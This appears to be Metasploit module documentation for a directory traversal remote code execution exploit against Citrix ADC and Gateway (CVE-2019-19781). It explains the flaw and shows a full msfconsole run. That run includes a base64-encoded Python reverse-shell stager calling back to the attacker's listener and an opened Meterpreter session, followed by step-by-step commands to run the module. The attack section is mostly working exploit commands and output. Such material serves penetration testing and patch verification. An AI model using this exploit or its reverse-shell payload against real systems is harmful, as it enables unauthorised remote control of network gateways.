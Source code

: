 ## Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. They allow Directory Traversal.

In resume, when the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the filewrite function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted xml file who use `Perl Template Toolkit` in part of payload.

```
msf5 exploit(linux/http/citrix_dir_traversal_rce) > set rhosts [IP]
rhosts => XXX.XXX.XXX.XXX
msf5 exploit(linux/http/citrix_dir_traversal_rce) > set lhost [IP]
lhost => XXX.XXX.XXX.XXX
msf5 exploit(linux/http/citrix_dir_traversal_rce) > set verbose true
verbose => true
msf5 exploit(linux/http/citrix_dir_traversal_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444 
[+] The target appears to be vulnerable.
[*] Sending python/meterpreter/reverse_tcp command payload
[*] Generated command payload: import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJ1hYWC5YWFguWFhYLlhYWCcsNDQ0NCkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoZCx7J3MnOnN9KQo=')))
[*] Bookmark Added.
[*] Sending stage (53755 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:42881) at 2020-01-13 12:02:41 +0400
[+] Deleted /var/tmp/netscaler/portal/templates/hBgGdPlkypbfZMvq.xml.ttc2
[+] Deleted /netscaler/portal/templates/hBgGdPlkypbfZMvq.xml

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/citrix_dir_traversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Python (meterpreter)
  1   Unix (remote shell)
  2   Unix (command-line)
```

## Advanced options

**ForceExploit**

Override check result.

## References

  1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
  2. <https://www.exploit-db.com/exploits/47901>
  3. <https://www.exploit-db.com/exploits/47902>
